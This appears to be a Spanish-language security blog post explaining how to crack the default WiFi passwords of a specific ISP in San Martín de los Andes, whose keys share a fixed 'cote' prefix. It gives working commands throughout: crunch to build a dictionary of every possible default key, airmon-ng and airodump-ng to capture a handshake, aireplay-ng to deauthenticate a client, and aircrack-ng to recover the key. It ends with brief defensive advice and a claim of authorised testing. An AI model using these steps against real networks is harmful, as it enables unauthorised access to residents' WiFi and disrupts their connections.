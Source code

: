 ```yaml
---
title: "WiFi Cooperativo en la aldea de montaña"
date: 2021-01-13T13:02:03-03:00
author: "bronxi"

draft: false

tags: ["wifi","aircrack","brute force"]
categories: ["wifi","brute foce"]
featuredImage: "/images/wifialdea/wifipass.png"
lightgallery: true

---
```



# WiFi Cooperativo en la aldea de montaña

Pasé tres semanas en San Martín de los Andes y noté que las claves WiFi por defecto del único proveedor de Internet tienen un patrón sumamente sencillo. Poseen 8 dígitos y todas comienzan con los mismos cuatro caracteres y los últimos 4 son alfanuméricos aleatorios. Por lo que existen solamente 1679616 posibilidas. Para generar un diccionario con dichas líneas, utilizaré la herramienta crunch.

## Instalar crunch & dictionary
Pueden intalarla en cualquier distribución Debian con el siguiente comando (Kali ya lo trae):

> sudo apt-get install -y crunch


El comando para crear este diccionario es muy sencillo

> crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -t cote@@@@ -o cotexxxx.txt

El primer 8 es el mínimo de caracteres de las claves y el segundo 8 el máximo de caracteres. Aquí solo necesitamos claves de 8 caracteres.
El string "abcdefghijklmnopqrstuvwxyz0123456789" que le sigue determina los caracteres a utilizar para la porción aleatoria de las claves.
La opción "-t" especifica un patrón para los caracteres aleatorios. En este caso es @, que se trata de minúsculas y también tomará los números que hemos indicado anteriormente. A esto le sigue la estructura del patrón "cote@@@@". Las @s serán los caracteres reemplazados por todas las variantes de la a a la z y del 0 al 9.
La opción "-o" indica la salida. Nombramos el archivo como nos guste.

### __Podemos decir que este diccionario contiene todas las claves por defecto de la ciudad__ ###


El siguiente paso es conseguir el archivo que contenga el handshake cifrado de la red WiFi. Para ello utilizamos aircrack-ng.

## Instalar aircrack
Para instalarlo en cualquier versión Debian (Kali también lo trae):

> sudo apt install aircrack-ng

## Our WiFi Interface

Nos fijamos el nombre de nuestra placa con ifconfig

> ifconfig
> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fa80::4g23:98l6:ka0:3436  prefixlen 64  scopeid 0x20<link>
        ether 59:96:1b:95:b0:2d  txqueuelen 1000  (Ethernet)
        RX packets 275495  bytes 308923532 (308.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 103650  bytes 21966607 (21.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


Antes de comenzar realizamos un check kill para evitar cualquier conflicto.

> sudo airmon-ng check kill


## Monitor Mode

Luego ponemos nuestra placa wifi en modo monitos:

> sudo airmon-ng start wlan0

## Redes WiFi en nuestro aire
Escaneamos las redes:

> sudo airodump-ng start wlan0mon

## Escuchando por un handshake
Una vez elegido el accesspoint al que queremos acceder, con ctrl + c detenemos el escaneo y nos pondremos a la escucha del accesspoint seleccionado:

> sudo airodump-ng -c 6 -b 00:01:12:56:32:56 -w nombredelarchivocondatosescuchados wlan0mon

Acá "-w" indica el nombre del archivo en el que se guardarán los datos capturados. "-c" indica en canal por el que trabaja el accesspoint. "-b" indica la MAC del accesspoint (BSSID). Por último, la interface que usamos, en este caso "wlan0mon". Al darle enter comenzará a escuchar ese accesspoint.

Veremos la cantidad de paquetes capturados y perdidos. En al parte inferior de la terminal, se observan los clientes conectados al accesspoint, elegimos uno para deantenticar y obtener el handshake (paquete que contiene la clave WiFi encriptada).

## Deaunenticar al cliente
Mientras el proceso anterior continúa corriendo, en otra terminal realizamos una deautenticación del cliente con los datos copiados. Es decir, del BSSID (accesspoint) y de una STATION (cliente).

> aireplay-ng -0 10 -a 00:01:12:56:32:56 -c 00:00:10:A0:05:06 wlan0mon

Acá "-0" indica la orden deauntenticar. "-a" la MAC del accesspoint. "-c" la MAC del cliente a deauntenticar. Por último, la interfaz que utilizamos en modo monitor, en este caso "wlan0mon".

Al conseguir el handshake, se notificará en la terminal que está escuchando, abierta en el punto *Escuchando por un handshake* Se obersva el mensaje en la parte superior derecha.

Verán algo así:

![Handshake](/images/wifialdea/handshake.png "Handshake")

## Brute force final
Por último, utilizamos fuerza bruta para probar todas las claves del diccionario sobre el archivo que contiene el handshake con el siguiente comando:

> sudo aircrack-ng -w cotexxxx.txt -b 00:01:12:56:32:56 nombredelarchivocondatosescuchados.cap

> KEY FOUND! [ cotefr33 ]

## Recomendaciones:
- Generar claves de diez caracteres en la que todos sus caracteres sean aleatorios.
- Si sos user, cambiá tu clave por defecto.


*Esta prueba se realizó en un entorno controlado con los permisos de los clientes adjudicatarios de los dispositivos involucrados, con el fin único de reconocer el nivel de seguridad de acceso a los dispositivos wifi desde una perspectiva ética de investigación en InfoSec.*
